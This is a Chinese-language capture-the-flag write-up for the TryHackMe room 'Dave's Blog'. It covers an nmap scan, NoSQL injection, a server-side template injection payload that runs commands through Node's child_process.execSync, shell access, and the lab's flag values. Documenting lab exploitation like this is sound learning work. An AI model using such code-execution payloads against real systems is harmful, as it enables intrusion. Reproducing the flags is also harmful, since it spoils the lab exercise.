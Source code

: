 ```yaml
---
sidebar_position: 182
tags: [Easy, Linux, SQLI, SSTI]
title: "Dave's Blog"
description: "Dave's Blog"
sidebar_label: "Dave's Blog"
slug: /tryhackme/182
---
```


# Dave's Blog

## 端口扫描

```bash
root@ip-10-10-80-160:~/davesblog# nmap -sTCV -p- --min-rate 1000 10.10.96.55
Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-18 06:52 GMT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Stats: 0:01:52 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 06:54 (0:00:06 remaining)
Nmap scan report for ip-10-10-96-55.eu-west-1.compute.internal (10.10.96.55)
Host is up (0.00055s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:31:1f:9f:b4:a1:10:9d:a9:69:ec:d5:97:df:1a:34 (RSA)
|   256 e9:f5:b9:9e:39:33:00:d2:7f:cf:75:0f:7a:6d:1c:d3 (ECDSA)
|_  256 44:f2:51:7f:de:78:94:b2:75:2b:a8:fe:25:18:51:49 (EdDSA)
80/tcp   open   http         nginx 1.14.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Dave's Blog
3000/tcp open   http         Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: Dave's Blog
8989/tcp closed sunwebadmins
MAC Address: 02:75:69:7D:C2:3B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.39 seconds
```

## 3000

进行目录枚举并没有发现什么特别的内容, 查看网站可以发现其显示内容为, 网站使用的数据库为 NOSQL 同时也知道网站使用的是 NodeJs 的技术, 于此同时查看网络抓包发现网站使用的程序框架为 Express, 

![image-20240709214521162](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-214620.png)

这里告诉了数据库的类型, 不来一波 SQL 注入对不起他, 直接找 payload 上, [Nosql 注入从零到一 - 先知社区](https://xz.aliyun.com/t/9908#toc-11)

![image-20240709214602883](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-214622.png)

此时就得到数据库中的内容, 将其进行解密之后就可以得到对应的用户账号, 进行登陆之后, 我意识到这估计是 SSTI 漏洞, 因此进行了尝试发现确认是 SSTI 漏洞, 之后我开始了 EXP 的查找之路最终发现一条 payload

```bash
{"exec":"require('child_process').execSync('whoami').toString();"}
```

![image-20240709214628583](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-214629.png)

## 后渗透

### dave

使用上面获取到 命令执行漏洞进行攻击, 最终获取到了一个 Shell

![image-20240709214700282](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-214701.png)

### dave —> root

执行 `sudo -l` 命令发现用户 dave 存在一个 root 特权对应的这里需要进行逆向分析, 不会

![image-20240709214707455](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-214708.png)

## 扩展

### Flag 3、4

对于 Flag 3 其存储的位置根据提示得知是在 mongo 数据库当中

```bash
> db.whatcouldthisbes.find()
{ "_id" : ObjectId("5ec6e5cf1dc4d364bf864108"), "whatCouldThisBe" : "THM{993e107fc66844482bb5dd0e4c485d5b}", "__v" : 0 }
```

对于 flag4 则存在于我们的 uid_checker 文件当中

```bash
THM{runn1ng_str1ngs_1s_b4sic4lly_RE}
Wow! You found the secret function! I still need to finish it..
```